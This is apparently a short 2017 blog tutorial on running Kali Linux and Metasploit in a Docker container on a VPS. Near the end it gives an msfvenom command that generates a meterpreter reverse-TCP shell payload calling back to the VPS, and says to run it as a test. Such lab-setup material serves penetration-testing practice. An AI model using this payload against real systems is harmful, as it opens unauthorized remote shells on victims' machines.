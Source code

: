 ```yaml
---
layout: post
title: "Install kali and metasploit in VPS using docker"
date: 2017-06-13 15:06:01 -0500
comments: true
categories: 
---
```


use docker to install kali and metasploit
<!--more-->

###install docker:

`sudo apt-get install docker.io`

###download kali image:

`docker pull kalilinux/kali-linux-docker`

This kali doesn't include msf. So we need to put kali in container and then install msf

create kali container:

`docker run -t -i kalilinux/kali-linux-docker /bin/bash`

###install metasploit

`apt-get update && apt-get upgrade`
`apt-get install metasploit-framework`

after that, run metasploit

{% img  /images/blog/docker/Selection_001.png   [title manually exploit [alt text]] %}

looks good. quit msf, quit kali container.

check container ID

`sudo docker ps -a`

{% img  /images/blog/docker/Selection_002.png   [title manually exploit [alt text]] %}

save container to an image:

`sudo docker commit 6d6853205f78 msf`

now map vps tcp port 8888 to container's tcp port 8888 for reverse tcp shell

`docker run -t -p 8888:8888 -i msf /bin/bash`

###test reverse shell:

create shell:

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[vps IP address]LPORT=8888 -f elf > shell.elf`

download shell.elf then chmod +x shell.elf

setup msf, run shell.elf

{% img  /images/blog/docker/Selection_003.png   [title manually exploit [alt text]] %}

